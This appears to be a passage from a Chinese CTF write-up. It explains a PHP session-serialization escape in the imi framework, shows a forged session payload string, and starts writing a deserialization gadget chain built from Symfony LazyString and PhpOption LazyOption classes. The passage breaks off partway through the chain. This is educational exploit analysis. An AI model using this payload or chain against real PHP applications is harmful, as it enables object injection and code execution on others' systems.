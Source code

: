 ```php
        $offset += \strlen(serialize($dataItem));
    }

    return $result;
}

```

![image-20220331125638570](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311316574.png)

操作：一定要先写入session中，然后再get方法访问。

因为在对session的操作`encode`中，将POST键值对写入session中

然后在GET方法中，再进行解码

我们做个小实验

就在上面的代码加上

`$data`的值，是伪造POST`aa|s:4:z3eyond|s:5:"admin";=b`经过encode后的值。

```php
$data = 'aa|s:4:z3eyond|s:5:"admin";|s:1:"b";';
var_dump(decode($data));
```

![image-20220331131537617](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311315889.png)



这刚好是我们上面的截图

所以我们利用方式就是通过这个来为找反序列化值，从而造成反序列化逃逸

给了一个imi框架，我们还是找链子

![image-20220331132051415](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311320511.png)



入口还是`经典的`LazyString,因为这里存在serialize操作，所以会触发`__sleep()`,然后到`__toString()`

![image-20211229232716199](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311321088.png)

再到`LazyOption.php`

![img](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311323121.png)



所以我们构造链子

```php
<?php

namespace Symfony\Component\String{
    class LazyString{
        public $value;
        public function __construct($value){
            $this->value=$value;
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        public $callback;
        public $arguments;
        public function __construct($callback,$arguments){
            $this->callback=$callback;
            $this->arguments=$arguments;
        }
```